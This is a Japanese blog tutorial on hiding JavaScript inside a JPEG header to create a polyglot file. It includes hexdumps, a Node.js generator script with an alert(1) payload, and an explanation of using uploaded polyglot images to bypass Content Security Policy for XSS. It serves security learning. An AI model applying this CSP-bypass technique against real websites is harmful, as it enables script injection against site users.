 ```yaml
---
title: JPEG画像にJavaScriptのコードを埋め込んでみる
date: 2020-02-14
description: JPEG画像にJavaScriptのコードを埋め込んでみる
tags: ['セキュリティ']
---
```

JPEG画像にJavaScriptのコードを埋め込む手法が紹介されていたので試してみました。  
今回は次の画像に対してコードの埋め込んでみます。

![埋め込み画像](./donarudo.jpg)

# 注意

この記事は攻撃方法を知ることでセキュリティを学ぶことを前提としており、実験も仮想環境上で実行しています。  
決して外部サイトに対して実行しないようにしてください。

# 画像のバイナリを見てみる

今回試す方法は画像のバイナリを変更してコードを埋め込んでいます。  
そこで、最初は画像のバイナリを確認してみます。

```shell
$ hexdump -C donarudo.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 00 00 01  |......JFIF......|
00000010  00 01 00 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |.......lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|

$ hexdump -C donarudo.jpg | tail -n 3
000038f0  99 e8 80 e7 8a 5a 68 a7  57 de a3 e7 02 8a 28 a6  |.....Zh.W.....(.|
00003900  01 45 14 50 01 45 14 50  07 ff d9                 |.E.P.E.P...|
0000390b
```

先頭の2バイト **FF D8** はSOIマーカーと呼ばれ、JPEGフォーマットの開始を表しています。  
次の2バイト **FF E0** はセグメントの種類を表しており、次の2バイトの **00 10** がセグメントの長さを示していて
10進数で 16 なので、**00 10** を含む16バイト分（**FF E1** の手前まで) がセグメントであるのが分かります。  
最後の **FF D9** はEOIマーカーと呼ばれ、JPEGフォーマットの終了を表しています。

今回はこのセグメント内に `alert(1)` のjsコードを埋め込んでいきます。16進数のバイナリ表現は次のように取得できます。

```javascript
$ node
> 'alert(1);'.split('').map(i => i.charCodeAt(0).toString(16)).join('')
'616c6572742831293b'
```

# jsコードを埋め込む

↓がバイナリを変更して、jsコードを埋め込んでみた様子です。  

```shell
$ hexdump -C donarudo_01.jpg | head -n 5
00000000  ff d8 ff e0 00 10 4a 46  49 46 00 61 6c 65 72 74  |......JFIF.alert|
00000010  28 31 29 00 ff e1 00 6c  45 78 69 66 00 00 49 49  |(1)....lExif..II|
00000020  2a 00 08 00 00 00 03 00  31 01 02 00 07 00 00 00  |*.......1.......|
00000030  32 00 00 00 12 02 03 00  02 00 00 00 02 00 02 00  |2...............|
00000040  69 87 04 00 01 00 00 00  3a 00 00 00 00 00 00 00  |i.......:.......|
```

このままjsのコードとして読み込んでも、無効な文字列を含んでおりjsの読み込みでエラーが発生します。  
jsは `/*....*/` で囲む事でコメントとしてコードを無視することが出来るので、それを利用して画像データの部分をコメントアウトして、jsとして有効なコードであるように偽装する事が可能です。

```shell
$ hexdump -C bad-donarudo.jpg | head -n 6
00000000  ff d8 ff e0 2f 2a 4a 46  49 46 00 01 01 00 00 01  |..../*JFIF......|
00000010  00 01 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002f20  2a 2f 3d 61 6c 65 72 74  28 31 29 3b 2f 2a ff e1  |*/=alert(1);/*..|
00002f30  00 6c 45 78 69 66 00 00  49 49 2a 00 08 00 00 00  |.lExif..II*.....|

$ hexdump -C bad-donarudo.jpg | tail -n 3
00006810  68 a7 57 de a3 e7 02 8a  28 a6 01 45 14 50 01 45  |h.W.....(..E.P.E|
00006820  14 50 07 ff d9 2a 2f ff  d9                       |.P...*/..|
00006829
```

実際にコメントアウトの対応をしてjsコードを埋め込んだ画像のバイナリがこんな感じです。

先頭の4バイト **FF D8 FF E0** は有効な非ASCII文字のJavaScript変数になります。次の **2F 2A** がセグメントの始まりで、セグメントの部分を `/*.../*` でコメントアウトしています。 次に、`=` を差し込み変数代入とすることで、先頭の4バイトを変数として扱い有効な文字列としています。続いて `alert(1);` を実行コードとして差し込んでいます。その後、`/*...*/` で残りのJEPG画像データの部分をコメントアウトしています。

また、セグメント開始の **2F 2A** はセグメント長を表現しており、10進数で 12074 なので、セグメント長を合わせるために、12074 - 16 - 14 = 12044バイト をヌルバイト（**00**）で埋めています。

本来のセグメント部分:  
`2F 2A 4A 46 49 46 00 01 01 00 00 01 00 00 00 10 00 01` の16バイト  

埋め込みjsコード部分:  
`*/alert(1);/*` => `2a2f3d616c6572742831293b2f2a` 14バイト

有効なjsコードの部分だけを表現すると次のようになります。

```js
<有効な非アスキー文字>=alert(1);
```

このjsコードの埋め込みは次のプログラムで実現できます。

```js
const fs = require('fs');

const image = fs.readFileSync('donarudo.jpg');
const hex = image.toString('hex');
const soi = hex.substr(0,8);
const commentStart = '2f2a'; // /*
const header = hex.substr(12,28);
const nullBytes = Array(12044).fill('00').join('');
const code = `*/=alert(1);/*`.split('').map(e => e.charCodeAt(0).toString(16)).join('');
const payload = hex.substr(40, hex.length - 4);
const commentEnd = '2a2f'; // */
const eoi = hex.substr(hex.length - 4);
const injectedJsJpeg = soi + commentStart + header + nullBytes + code + payload + commentEnd + eoi;
const hexBinary = new Buffer(injectedJsJpeg, 'hex');

fs.writeFileSync('bad-donarudo.jpg', hexBinary);
```

# JPEG画像を読み込んでみる

jsを埋め込んだ画像を読み込んでみます。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <img src="bad-donarudo.jpg"/>
    <script src="bad-donarudo.jpg"></script>
</body>
</html>
```

![](./donarudo-xss.png)

正常に画像は表示されて、jsファイルとしても読み込む事ができました！  
Chromeでは対策済みでアラートが表示されず、IE11でアラートの表示が確認できました。

実現可能なブラウザは限られますが、日本国内ではまだまだIE11の利用ユーザーは多いので無視できない手法です。

# 攻撃の使われ方

これで簡単にXSSが出来るのかなと思ったのですが、<img>タグで読み込んだ場合はあくまで画像として処理されるので、コードが実行されることはありません。  
あくまで、攻撃対象のサイト上で \<script>タグで画像を読み込ませる必要があります。  

ではこの手法がどのような攻撃に利用されるかというと、**[コンテンツセキュリティポリシー（CSP）](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP)のバイパス** に利用されます。  
CSPが有効になっているWebサイトでは別ドメインからのjsファイルの読み込みやインラインスクリプトの実行がブロックされます。そのため、\<script>タグを埋め込む事ができてもXSSを防ぐ事が可能になります。

しかし、Webサイトに画像アップロードが機能があった場合に、jsコードを埋め込んだ画像をアップロードして、その画像を読み込むように\<script>タグを埋め込むめば、CSPのセキュリティをくぐり抜けてxssを実現することが可能になります。

```html
<!-- Webサーバーに配置されている自分がアップロードしたjsコードを埋め込んだJPEG画像 -->
<script src="/public/images/xss.jpg"></script>
```


最近はS3などにアップロードした画像が配置されるパターンが多く、その場合は画像読み込みがCSPのポリシー対象である外部ドメインとなるので、利用できる状況はかなり限定的なのかな？と思います。

# 参考文献
* [Hiding JavaScript in Picture Files for XSS](https://www.youtube.com/watch?v=memPcI94YGA)
* [Hiding JS in a JPEG header.](https://medium.com/@codedbrain/hiding-js-in-a-jpeg-header-454386f9e20)
* [Bypassing CSP using polyglot JPEGs](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
* [Content Security Policyについて語る](http://www.nowhere.co.jp/blog/archives/20190315-080010.html)
* [JPEGファイルの構造](https://hp.vector.co.jp/authors/VA032610/JPEGFormat/StructureOfJPEG.htm)
